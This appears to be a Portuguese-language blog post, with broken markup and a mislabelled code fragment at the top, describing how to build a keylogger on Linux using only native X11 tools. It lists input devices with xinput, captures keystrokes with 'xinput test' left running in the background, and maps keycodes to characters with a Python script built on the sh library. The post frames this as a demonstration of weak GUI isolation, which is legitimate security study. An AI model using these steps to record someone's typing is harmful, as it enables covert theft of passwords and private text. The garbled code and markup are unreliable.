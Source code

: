 ```yaml
    keymap = {}
    table = bash.xmodmap(&quot;-pke&quot;)
    for line in table:
    match = KEYCODE_REGEX.match(line)
    if match and match.groups()[1]:
    keycode = match.groups()[0]
    key_chars_group = match.groups()[1].split()
    key_main_char = key_chars_group[0]
    keymap[keycode] = self._sanitize(key_main_char)
    return keymap</p></div>
    ";}
categories:
  - Programming Internals
---
```

Esse post está atrasado uns dois anos. Ficamos de fazer esse keylogger desde que a Rutkowska publicou o post &#8220;<a href="http://theinvisiblethings.blogspot.com.br/2011/04/linux-security-circus-on-gui-isolation.html" target="_blank">The Linux Security Circus: On GUI isolation</a>&#8221; no dia 23 de abril de 2011 (este post foi escrito no dia 1 de abril de 2013). Segundo esse texto, podemos gravar os dados digitados pelo nosso usuário apenas utilizando comandos nativos do X11.

Para fazermos isso, primeiro verificamos como listar os dispositivos conectados e reconhecidos (utilizados) pelo ambiente gráfico:

<pre lang="sh">pedro@HAL9001:~$ xinput list
⎡ Virtual core pointer                    	id=2	[master pointer  (3)]
⎜   ↳ Virtual core XTEST pointer              	id=4	[slave  pointer  (2)]
⎜   ↳ MosArt Optical Mouse                    	id=9	[slave  pointer  (2)]
⎣ Virtual core keyboard                   	id=3	[master keyboard (2)]
    ↳ Virtual core XTEST keyboard             	id=5	[slave  keyboard (3)]
    ↳ Power Button                            	id=6	[slave  keyboard (3)]
    ↳ Power Button                            	id=7	[slave  keyboard (3)]
    ↳ Hewlett-Packard Company HP USB CCID Smartcard Keyboard	id=8	[slave  keyboard (3)]</pre>

Esse comando mostra o ID do teclado. Assim, de posse do id do teclado &#8212; no caso, o id=8 é esse dispositivo &#8211;, é possível capturar as teclas sendo digitadas. Para isso, basta utilizar o comando `xinput test`. Por exemplo:

<pre lang="sh">pedro@HAL9001:~$ xinput test 8
key release 36 
key press   28 
tkey release 28 
key press   26 
ekey release 26 
key press   39 
skey release 39 
key press   28 
tkey release 28 
key press   26 
ekey release 26</pre>

Assim, basta deixar rodando esse comando de background e utilizar um script de expressões regulares para substituir o código da tecla digitada pelo respectivo caractere. Para fazermos isso, facilitaremos nosso trabalho utilizando uma interface que permite usarmos comandos Bash como se fossem comandos nativos do Python. Tal interface foi desenvolvida por Andrew Moffat e pode ser encontrada em <a href="https://github.com/amoffat/sh" target="_blank">https://github.com/amoffat/sh</a>.
